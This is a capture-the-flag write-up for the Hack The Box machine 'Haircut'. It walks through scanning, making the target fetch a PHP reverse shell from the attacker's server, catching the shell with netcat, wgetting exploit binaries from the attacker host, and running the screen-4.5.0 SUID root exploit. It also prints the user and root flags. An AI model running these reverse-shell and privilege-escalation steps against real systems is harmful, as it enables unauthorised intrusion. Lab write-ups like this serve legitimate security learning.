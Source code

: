 <center><h1>Haircut</h1><center>
<br>

First start with an Nmap scan

```
# nmap -sV -sC -T4 -p- 10.10.10.24
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-26 16:37 UTC
Nmap scan report for 10.10.10.24
Host is up (0.060s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.49 seconds
```
Only a couple ports to work with. Checking out port 80 we are greeted with a basic web page with a photo.

<center><img src="/htb/haircut/home.png"></center>
<br>
Running a gobuster we find a couple of pages.
```
# gobuster dir -u http://10.10.10.24 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 20    
===============================================================                                                                               
Gobuster v3.0.1                                                                                                                               
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)                                                                               
===============================================================                                                                               
[+] Url:            http://10.10.10.24                                                                                                        
[+] Threads:        20                                                                                                                        
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                                              
[+] Status codes:   200,204,301,302,307,401,403                                                                                               
[+] User Agent:     gobuster/3.0.1                                                                                                            
[+] Extensions:     txt,php                                                                                                                   
[+] Timeout:        10s                                                                                                                       
===============================================================                                                                               
2019/09/26 16:46:56 Starting gobuster                                                                                                         
===============================================================                                                                               
/uploads (Status: 301)                                                                                                                        
/exposed.php (Status: 200)                                                                                                              
```
The <b>/uploads</b> directory redirects us to a 403 so we cant do much there right now. The <b>/exposed.php</b> is the one that we want. In the top left we see a button that prints out a <b>test.html</b> file from the localhost.

<center><img src="/htb/haircut/button.png"></center>
<br>
I decided to try and see if I can interact with my attacking machine. To do this I set up a <b>python SimpleHTTPServer</b> on my attacking machine so I could attempt to transfer the a reverse shell over.
```
# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...

# http://10.10.14.21/shell.php -o uploads/shell.php
```
Now I set up my <b>nc</b> listener and then triggered the shell by navigating to <b>http://10.10.14.21/uploads/shell.php</b>. If we check the listener then we will see that a shell has opened
```
# nc -lvnp 9999                                                                                                  
listening on [any] 9999 ...                                                                                                                   
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.24] 43682                                                                                   
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux                                     
 19:45:58 up  1:08,  0 users,  load average: 0.00, 0.00, 0.00                                                                                 
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT                                                                           
uid=33(www-data) gid=33(www-data) groups=33(www-data)                                                                                         
/bin/sh: 0: can't access tty; job control turned off                                                                                          
$
```
From here we can grab the user flag
```
$ cat user.txt
 0b0da2af50e9ab7c81a6ec2c562afeae
```
Now for the priv esc. If we run a LinEnum script you should see the vulnerable <b>SUID</b> binary <b>screen-4.5.0</b>.
```
-rwsr-sr-x 1 daemon daemon 51464 Jan 14  2016 /usr/bin/at                                                                                     
-rwsr-xr-x 1 root root 54256 May  4  2017 /usr/bin/passwd                                                                                     
-rwsr-xr-x 1 root root 1588648 May 19  2017 /usr/bin/screen-4.5.0                                                                             
-rwsr-xr-x 1 root root 40432 May  4  2017 /usr/bin/chsh                                                                                       
-rwsr-xr-x 1 root root 49584 May  4  2017 /usr/bin/chfn                                                                                       
```
A quick google search will reveal the exploit *[here](https://www.exploit-db.com/exploits/41154)*. The problem is the exploit does not work stright away because <b>gcc</b> is broken on the box so we need to compile <b>libhax.c</b> and <b>rootshell.c</b> locally and then upload them to the box.
```
# gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c                                                                        
/tmp/libhax.c: In function ‘dropshell’:

# gcc -o /tmp/rootshell /tmp/rootshell.c                                                                                        
/tmp/rootshell.c: In function ‘main’:
```
Now we need to copy <b>libhax.so</b> and <b>rootshell</b> over to the <b>/tmp</b> directory on the box. We can do this using a <b>python SimpleHTTPServer</b> again
```
$ wget 10.10.14.21:8000/rootshell                                                                                                             
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.                                                      
--2019-09-26 21:02:00--  http://10.10.14.21:8000/rootshell                                                                                    
Connecting to 10.10.14.21:8000... connected.                                                                                                  
HTTP request sent, awaiting response... 200 OK                                                                                                
Length: 16824 (16K) [application/octet-stream]                                                                                                
Saving to: 'rootshell'                                                                                                                        

     0K .......... ......                                     100%  562K=0.03s                                                                

2019-09-26 21:02:01 (562 KB/s) - 'rootshell' saved [16824/16824]                                                                              

[+] done!                                                                                                                                     
$ wget 10.10.14.21:8000/libhax.so                                                                                                             
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.                                                      
ERROR: ld.so: object '/tmp/libhax.so' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.                  
--2019-09-26 21:01:48--  http://10.10.14.21:8000/libhax.so                                                                                    
Connecting to 10.10.14.21:8000... connected.                                                                                                  
HTTP request sent, awaiting response... 200 OK                                                                                                
Length: 16136 (16K) [application/octet-stream]                                                                                                
Saving to: 'libhax.so'                                                                                                                        

     0K .......... .....                                      100%  521K=0.03s                                                                

2019-09-26 21:01:48 (521 KB/s) - 'libhax.so' saved [16136/16136]                                                                              
```
Now run the exploit from earlier
```
$ bash screenroot.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
gcc: error trying to exec 'cc1': execvp: No such file or directory
gcc: error trying to exec 'cc1': execvp: No such file or directory
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

whoami
root
```
Now we can grab the root flag
```
# cat root.txt
4cfa26d84b2220826a07f0697dc72151
```
<br><br><br><br>
